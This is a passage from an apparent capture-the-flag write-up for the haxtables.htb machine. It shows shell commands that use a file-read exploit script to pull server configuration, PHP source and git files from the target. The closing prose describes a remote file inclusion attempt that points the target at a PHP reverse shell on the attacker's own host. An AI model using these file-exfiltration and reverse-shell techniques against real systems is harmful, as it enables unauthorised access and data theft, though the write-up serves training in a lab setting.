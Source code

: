 ```shell

# get /etc/apache2/sites-enabled/000-default.conf
python3 modified-str2hex-file_url.py /etc/apache2/sites-enabled/000-default.conf | jq .data | xxd -r -p > 000-default.conf

# add the image subdomain to host file
echo "10.10.11.198 haxtables.htb" | sudo sed -i 's/haxtables.htb/& image.haxtables.htb/' /etc/hosts

# get /var/www/image/index.php
python3 modified-str2hex-file_url.py /var/www/image/index.php | jq .data | xxd -r -p > image/index.php

# get /var/www/image/utils.php
python3 modified-str2hex-file_url.py /var/www/image/utils.php | jq .data | xxd -r -p > image/utils.php

# get /var/www/image/scripts/git-commit.sh
python3 modified-str2hex-file_url.py /var/www/image/scripts/git-commit.sh | jq .data | xxd -r -p > image/scripts/git-commit.sh

# view .git/config
python3 modified-str2hex-file_url.py /var/www/image/.git/config | jq .data | xxd -r -p 
#--snip--#
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true

# view .git/logs/HEAD
python3 modified-str2hex-file_url.py /var/www/image/.git/logs/HEAD | jq .data | xxd -r -p
#--snip--#
0000000000000000000000000000000000000000 a85ddf4be9e06aa275d26dfaa58ef407ad2c8526 james <james@haxtables.htb> 1668104154 +0000	commit (initial): Initial commit
a85ddf4be9e06aa275d26dfaa58ef407ad2c8526 9c17e5362e5ce2f30023992daad5b74cc562750b james <james@haxtables.htb> 1668104210 +0000	commit: Updated scripts!

# view .git/index
python3 modified-str2hex-file_url.py /var/www/image/.git/index | jq .data | xxd -r -p | strings
#--snip--# store in files
actions/action_handler.php
actions/image2pdf.php
assets/img/forestbridge.jpg
includes/coming_soon.html
index.php
scripts/git-commit.sh
utils.php

# create corresponding directories and download the files
mkdir -p {actions,assets/img,includes,scripts}    # create all the sub directories
for file in $(cat files); do python3 modified-str2hex-file_url.py /var/www/image/$file | jq .data | xxd -r -p > ./image/$file; done 2>&1    # download the files

```
This is a very tricky one. I started a python server after creating a php reverse shell named 'index.php' and sent a curl request thus  `curl http://haxtables.htb/index.php?page=http://10.10.14.112:8008/index.php%00` which unfortunately returned haxtable's index.php page. Having earlier exfiltrated the  '000-default.conf' I switched to downloading all the existing subdomain's index.php pages.
